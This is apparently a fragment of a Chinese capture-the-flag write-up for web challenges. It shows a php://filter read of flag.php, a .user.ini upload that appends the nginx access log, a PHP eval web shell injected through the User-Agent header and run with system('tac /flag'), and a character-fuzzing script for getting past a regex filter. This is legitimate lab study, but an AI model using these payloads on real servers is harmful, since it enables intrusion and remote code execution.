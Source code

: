 ![](https://s2.loli.net/2024/03/07/gulBGwbQrzPZAFn.png)

得到参数名:mihoyo

**?mihoyo=php://filter/read=convert.base64-encode/resource=flag.php**

伪协议直接读，解码 base64 即可

### ez_ini

文件上传  .user.ini



上传.user.ini 文件


	GIF89A
	auto_append_file="/var/log/nginx/access.log"


UA 头添加木马：

```php
<?php @eval($_POST['shell']);?
```

![](https://s2.loli.net/2024/03/07/dXTVW1RfPrceQ6H.png)

**POST:
shell=system('tac /flag');**

![](https://s2.loli.net/2024/03/07/6f4buS1pxIn8ad2.png)

### fuzz!

fuzz RCE



![](https://s2.loli.net/2024/03/07/G5jpt7KPxRogcIS.png)

flag 在/flaggggggg.txt 中，要 bypass

fuzz 脚本

```php
<?php
for ($i = 32; $i < 129; $i++) {
    if (!preg_match("/\`|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\+|\=|\\\\|\'|\"|\;|\<|\>|\,|\?|jay/i", $i)) {
        echo chr($i);
    }
}
?>
```

![](https://s2.loli.net/2024/03/07/6y2YwifRMZArQXm.png)
